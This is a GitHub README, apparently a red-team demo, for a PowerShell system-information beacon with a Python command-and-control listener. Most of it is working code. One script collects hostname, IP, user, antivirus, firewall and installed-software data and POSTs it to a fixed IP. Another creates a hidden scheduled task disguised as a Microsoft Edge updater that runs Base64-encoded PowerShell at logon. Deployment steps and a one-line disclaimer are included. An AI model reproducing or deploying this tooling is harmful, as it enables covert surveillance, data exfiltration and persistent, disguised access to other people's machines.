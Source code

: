 # System Info Beacon with COM API Persistence

This project demonstrates a PowerShell-based system beacon that collects system information and persists via a hidden Scheduled Task using the COM API. The data is sent to a Command & Control (C2) server built using Python’s `http.server`.

> ⚠️ **Disclaimer**: This project is for educational and authorized red team use only. 

---

## Requirements
2 Virtual Machines(VMs) are required for this demonstration:
- One with Kali Linux/ ParrotOS or any Linux distro : To host C2 server
- One with Windows 10 : To execute the Powershell Code

## Features of Exploit

- Collects critical system metadata (hostname, IP, OS, user, AV, firewall, uptime, software list, etc.)
- Posts data to a remote HTTP server endpoint
- Creates persistent beaconing via a hidden Scheduled Task using the COM API
- Uses Base64-encoded PowerShell for stealth

---

## PowerShell Beacon Script

### One-Time System Info Beacon

```powershell
$hostname = $env:COMPUTERNAME
$ip = (Get-NetIPAddress -AddressFamily IPv4 | Where-Object { $_.IPAddress -notlike "169.*" -and $_.PrefixOrigin -ne "WellKnown" })[0].IPAddress
$user = $env:USERNAME
$os = (Get-CimInstance Win32_OperatingSystem).Caption
$uptime = (Get-CimInstance Win32_OperatingSystem).LastBootUpTime
$av = (Get-CimInstance -Namespace "root/SecurityCenter2" -Class AntiVirusProduct | Select-Object -ExpandProperty displayName -ErrorAction SilentlyContinue) -join ", "
$firewallStatus = (Get-NetFirewallProfile | Select-Object Name, Enabled | Out-String).Trim()
$topProcesses = (Get-Process | Sort-Object CPU -Descending | Select-Object -First 5 Name, CPU | Out-String).Trim()
$software = (Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object -ExpandProperty DisplayName -ErrorAction SilentlyContinue) -join ", "

$payload = @{
    Hostname  = $hostname
    IP        = $ip
    User      = $user
    OS        = $os
    Uptime    = $uptime
    AV        = $av
    Firewall  = $firewallStatus
    Processes = $topProcesses
    Software  = $software
    Time      = (Get-Date).ToString()
}

try {
    Invoke-WebRequest -Uri "http://192.168.1.193/collect" -Method POST -Body $payload -UseBasicParsing
} catch {}
```

### Beacon Script for Logon Trigger

Encapsulated in a Base64-encoded string for stealth and injected via COM API.

### COM API-Based Persistence

```powershell
$encoded = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($beaconScript))

$taskName = "MicrosoftEdgeUpdaterService"
$taskDesc = "Microsoft Edge Telemetry Update"

$service = New-Object -ComObject "Schedule.Service"
$service.Connect()

$rootFolder = $service.GetFolder("\")
$taskDef = $service.NewTask(0)

$taskDef.RegistrationInfo.Description = $taskDesc
$taskDef.RegistrationInfo.Author = "Microsoft Corporation"

$trigger = $taskDef.Triggers.Create(9)
$trigger.UserId = [System.Security.Principal.WindowsIdentity]::GetCurrent().Name

$action = $taskDef.Actions.Create(0)
$action.Path = "powershell.exe"
$action.Arguments = "-NoProfile -WindowStyle Hidden -EncodedCommand $encoded"

$taskDef.Settings.Enabled = $true
$taskDef.Settings.Hidden = $true
$taskDef.Settings.StartWhenAvailable = $true
$taskDef.Settings.DisallowStartIfOnBatteries = $false

$rootFolder.RegisterTaskDefinition($taskName, $taskDef, 6, $null, $null, 3, $null)
```

---

## Python C2 Server

Run this listener to receive and parse the beacon POSTs:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import parse_qs, unquote_plus

class C2Handler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers.get('Content-Length', 0))
        post_data = self.rfile.read(content_length).decode()
        parsed = parse_qs(post_data)
        decoded = {k: unquote_plus(v[0]) for k, v in parsed.items()}

        print("\n[+] Beacon Data Received:")
        for key, value in decoded.items():
            print(f"{key.capitalize()}: {value}")

        self.send_response(200)
        self.end_headers()

def run(server_class=HTTPServer, handler_class=C2Handler, port=80):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print(f"[+] C2 Server Running on Port {port}...")
    httpd.serve_forever()

if __name__ == "__main__":
    run()
```

---

## Execution

![image](https://github.com/user-attachments/assets/342278b2-3e80-4802-9799-409bf0719ffc)

> Bottom half cut due to personal data(extracted by the exploit)

## Deployment

1. Host the Python server on an attacker-controlled machine:  
   ```bash
   python3 beacon_server.py
   ```
2. Execute the PowerShell beacon script on the target.
3. Beacon data will be received on the Python server.

---

## References

- Windows COM API for task scheduling
- PowerShell Remoting and System Management Cmdlets
- HTTP Beaconing Techniques

---
